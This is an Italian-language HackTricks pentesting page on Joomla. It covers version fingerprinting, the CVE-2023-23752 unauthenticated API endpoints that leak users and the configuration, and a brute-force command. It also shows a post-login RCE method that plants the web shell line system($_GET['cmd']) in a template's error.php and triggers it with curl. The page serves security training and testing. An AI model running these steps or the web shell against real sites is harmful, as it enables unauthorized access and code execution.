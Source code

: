 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla Statistics

Joomla raccoglie alcune [statistiche di utilizzo](https://developer.joomla.org/about/stats.html) anonime come la suddivisione delle versioni di Joomla, PHP e dei sistemi operativi del server in uso nelle installazioni di Joomla. Questi dati possono essere interrogati tramite il loro [API](https://developer.joomla.org/about/stats/api.html) pubblico.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Controlla il **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Versione

* In **/administrator/manifests/files/joomla.xml** puoi vedere la versione.
* In **/language/en-GB/en-GB.xml** puoi ottenere la versione di Joomla.
* In **plugins/system/cache/cache.xml** puoi vedere una versione approssimativa.

### Automatic
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - La metodologia di pentesting web è una sezione sui scanner CMS**](./#cms-scanners) che possono scansionare Joomla.

### Divulgazione di informazioni non autenticata tramite API:

Le versioni da 4.0.0 a 4.2.7 sono vulnerabili a divulgazione di informazioni non autenticata (CVE-2023-23752) che restituirà credenziali e altre informazioni.

* Utenti: `http://<host>/api/v1/users?public=true`
* File di configurazione: `http://<host>/api/index.php/v1/config/application?public=true`

**Modulo MSF**: `scanner/http/joomla_api_improper_access_checks` o script ruby: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Puoi utilizzare questo [script](https://github.com/ajnik/joomla-bruteforce) per tentare di forzare l'accesso al login.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Se sei riuscito a ottenere **credenziali admin**, puoi **RCE all'interno di esso** aggiungendo un frammento di **codice PHP** per ottenere **RCE**. Possiamo farlo **personalizzando** un **template**.

1. **Clicca** su **`Templates`** in basso a sinistra sotto `Configuration` per aprire il menu dei template.
2. **Clicca** su un nome di **template**. Scegliamo **`protostar`** sotto l'intestazione della colonna `Template`. Questo ci porterà alla pagina **`Templates: Customise`**.
3. Infine, puoi cliccare su una pagina per aprire il **sorgente della pagina**. Scegliamo la pagina **`error.php`**. Aggiungeremo un **PHP one-liner per ottenere l'esecuzione del codice** come segue:
1. **`system($_GET['cmd']);`**
4. **Salva & Chiudi**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Da XSS a RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Script di sfruttamento Joomla che **eleva XSS a RCE o altre vulnerabilità critiche**. Per ulteriori informazioni controlla [**questo post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Fornisce **supporto per le versioni Joomla 5.X.X, 4.X.X e 3.X.X, e consente di:**
* _**Privilegi di Escalation:**_ Crea un utente in Joomla.
* _**(RCE) Modifica Template Integrati:**_ Modifica un Template Integrato in Joomla.
* _**(Custom) Sfruttamenti Personalizzati:**_ Sfruttamenti Personalizzati per Plugin Joomla di Terze Parti.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
